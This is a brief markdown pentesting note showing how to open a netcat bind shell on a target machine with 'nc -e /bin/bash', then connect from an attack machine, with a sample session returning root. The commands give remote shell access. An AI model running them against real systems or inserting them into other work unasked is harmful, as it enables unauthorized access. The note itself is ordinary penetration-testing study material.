 # Pentesting

## Open a netcat connection on the target machine
Run the following command on the target machine:
```
nc.traditional -l -p 12345 -e /bin/bash
```

Now you can connect to it by running the following command from your attack machine:
```
nc {target_machine_ip} 12345
```
Example:
```
$ nc 192.168.232.131 12345
whoami
root
```
